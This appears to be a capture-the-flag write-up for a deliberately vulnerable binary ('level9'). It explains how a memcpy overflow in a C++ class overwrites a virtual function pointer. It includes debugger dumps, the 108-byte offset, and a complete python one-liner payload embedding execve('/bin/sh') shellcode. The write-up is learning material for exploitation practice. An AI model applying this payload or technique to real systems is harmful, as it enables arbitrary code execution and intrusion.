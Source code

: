 # Shell code in cpp

## Context: 

Main function create a class N *, and lets us write inside at N + 0x4.

Vuln is, funtion setAnnotation() use memcpy to write inside the class, lenght of argv[1], but size of class N is 108.

A the end of the program, main() call a pointer fucntion overwritable.

```c
  (**(code **)*this_00)(this_00,this);
```

if we print the Class inside the heap, we can see it is before another data : 0x08048848 which is a pointer to a N::funtion().

```c
gef➤  x/50xw 0x0804ebb0
0x804ebb0:	0x08048848	0x41414141	0x41414141	0x00000000
0x804ebc0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804ebd0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804ebe0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804ebf0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804ec00:	0x00000000	0x00000000	0x00000000	0x00000000
0x804ec10:	0x00000000	0x00000000	0x00000005	0x00000071
0x804ec20:	0x08048848	0x00000000	0x00000000	0x00000000
```

```c
0x08048848 -> 0x0804873a -> n::operator+()
```

## Exploit

First lets find the offset for overwrite data:

```c
$eax   : 0x62616163 ("caab"?)
gef➤  pattern offset 0x62616163
[+] Found at offset 108 (little-endian search) likely
```

### Payload :

#### What we need:

- padding : 108
- entry heap class: 0x804a008
- entry buffer: 0x804a00c
- shell address : 0x804a010
- shell code : ```\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80``` (21 bytes)

:warning: The payload begin with an address 4 byte further because, the pointer we overwrited was a **pointer, and he needed to point to another address, not on the shell code. So it point to the start of the buffer, which point to 4 bytes further.

Payload = shell address (entry buffer + 0x4) + shell code + padding - shell addres - shell code + entry buffer

./level9 $(python2.7 -c 'import sys; sys.stdout.write( b"\x10\xa0\x04\x08" + b"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" +  b"\x90" * 83 + b"\x0c\xa0\x04\x08")')